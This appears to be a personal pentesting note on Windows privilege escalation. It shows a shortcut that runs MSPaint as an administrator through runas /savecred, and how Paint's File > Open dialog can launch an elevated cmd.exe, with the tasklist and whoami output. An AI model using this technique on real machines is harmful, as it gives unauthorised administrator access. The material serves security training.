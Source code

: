 # Insecure GUI Apps

Some shortcut programs are highly unlikely to appear in cyber penetration sessions. Yet this technique was also used as a persistence technique just to modify the shortcut link.

## 01 - Detect

![[01 - MSPaint Shortcut Properties.png]]

This is what it looks like in the **Target** input field:

```
C:\Windows\System32\runas.exe /user:admin /savecred %windir%\System32\mspaint.exe
```

When we open the `AdminPaint.lnk` shortcut link. We run in the command prompt to find the `mspaint.exe` process.

```
C:\Users\user> tasklist /v | findstr mspaint.exe
mspaint.exe                   3972 RDP-Tcp#0                  2     29,244 K Running         WIN-QBA94KB3IOF\admin                                   0:00:01 Untitled - Paint
```

The process was running as a user called `admin` that is part of the **Administrators** group

## 02 - Exploit

We can exploit this to navigate our reverse shell but let's say we are on a RDP session just to evade detection and we only need to run a few commands using `cmd.exe` with administrator privileges unless it's needed.

While the MSPaint is still running we'll have to navigate to **File > Open** then we enter this in the dialog box:

```
c:/windows/system32/cmd.exe
```

![[02 - Open Command Prompt.png]]

Then click **Open** you've elevated to administrator access.

```
C:\Users\admin\Pictures> whoami
win-qba94kb3iof\admin
```

---
## References

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)